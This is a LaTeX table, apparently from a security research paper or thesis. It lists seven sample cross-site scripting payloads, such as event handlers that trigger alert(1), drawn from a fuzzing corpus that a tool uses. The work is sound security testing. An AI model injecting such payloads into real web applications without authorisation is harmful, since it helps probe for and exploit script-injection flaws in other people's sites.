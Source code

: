 \begin{table}[ht]
\centering
 \begin{tabular}{@{}|l|l|@{}}
 \hline
 \textbf{ } & \textbf{Corpus of known Cross-Site Scripting payloads} \\ 
 \hline\hline
 1 & <form onsubmit=alert(1)><input type=submit> \\ 
 \hline
 2 & <a draggable="true" ondragstart="alert(1)">test</a> \\ 
 \hline
 3 & <abbr id=x tabindex=1 onbeforedeactivate=alert(1)></abbr><input autofocus> \\ 
 \hline
 4 & <body onscroll=alert(1)><div style=height:1000px></div><div id=x></div> \\ 
 \hline
 5 & <canvas onbeforepaste="alert(1)" contenteditable>test</canvas> \\
 \hline
 6 & <nav onmouseover="alert(1)">test</nav> \\
 \hline
 7 & <style onreadystatechange=alert(1)></style> \\
 \hline
 \textbf{...} & \textbf{.....} \\
 \hline
 \end{tabular}
 \captionsetup{justification=centering}
 \caption[Cross-Site Scripting payloads corpus]{\textit{Randomly selected XSS payloads from the corpus \pname{} uses during a fuzzing session. The corpus consists of thousands of payloads}}
 \label{xss_payload_tables}
\end{table}